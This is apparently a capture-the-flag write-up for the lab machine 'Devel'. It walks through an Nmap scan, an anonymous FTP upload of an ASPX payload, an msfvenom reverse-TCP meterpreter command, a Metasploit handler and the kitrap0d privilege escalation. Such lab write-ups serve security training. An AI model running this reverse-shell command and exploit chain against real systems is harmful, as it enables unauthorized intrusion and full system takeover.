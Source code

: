 # Machine - Easy Windows - Devel

IP 10.10.10.5 

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- ftp
- Metasploit

## Enumeration

- Nmap shows port 21 and 80 is open.

## Exploitation

- FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
- Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

- Used `local_exploit_suggester` module for this.
- After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
